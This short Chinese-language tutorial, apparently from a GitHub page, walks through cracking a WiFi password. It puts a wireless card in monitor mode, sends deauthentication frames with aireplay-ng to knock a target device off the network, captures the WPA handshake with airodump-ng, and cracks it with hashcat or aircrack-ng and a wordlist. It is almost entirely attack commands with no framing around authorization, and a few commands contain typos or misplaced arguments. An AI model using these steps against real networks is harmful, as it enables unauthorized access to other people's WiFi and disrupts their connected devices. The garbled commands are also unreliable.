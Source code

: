 # 通过握手包获取 WiFi 密码

1. 查看網絡設備, 獲取無線網卡名稱.

   ```sh
   iwconfig
   ```

2. 開啓無線網卡監聽模式.

   ```sh
   sudo airmon-ng start wlan0
   ```

   若设备被占用, 执行下列命令来结束占用设备的进程:  

   ```sh
   sudo airmon-ng check kill
   ```

   開啓監聽模式後, 無線網卡名稱發生改變.  後面會附加`mon`(monitor), 即`wlan0mon`.

   !!! warning
       監聽模式開啓後的無線網卡將無法訪問 Internet, 直到監聽模式被關閉.

3. 監聽 WiFi 信號.

   ```sh
   sudo airodunp-ng wlan0mon
   ```

   當發現目標 WiFi 時按`Ctrl+C`停止掃描. 並記錄 BSSID 和 CH 兩個參數.

4. 捕獲指定 WiFi 通信內容.

   ```sh
   sudo airodump-ng -w [.cap存檔名稱] -c [CH] --bssid [BSSID] wlan0mon
   ```

5. 斷開指定設備與指定 WiFi 的鏈接.

   ```sh
   sudo aireplay-ng -0 5 -a [BSSID] -c [Target MAC] wlan0mon
   ```

   目標設備從指定 WiFi 斷開鏈接後將嘗試重連, 會向路由器發送握手包. 而第4步將會捕獲這個握手包.

6. 當第4步提示捕獲握手包時按下`Ctrl+C`結束監聽.

   此時, 握手包的數據已經被記錄在第4步指定的`.cap`文件中.

7. 對`.cap`文件中握手包的hash進行破解.

   - 使用 Hashcat. (推薦)

      ```sh
      aircrack-ng [.cap存檔文件] -j [.haccpx文件]   # 將 .cap 文件轉爲 hashcat 接受的 .haccpx 文件
      hashcat -m 2500 -a 0 [.hccapx文件] [字典文件] # 利用 hashcat 進行破解
      ```

   - 使用 aircrack-ng.

      ```sh
      aircrack-ng -w [.cap存檔文件] [字典文件]
      ```

8. 關閉無線網卡監聽模式.

   ```sh
   sudo airmon-ng stop wlan0mon
   ```
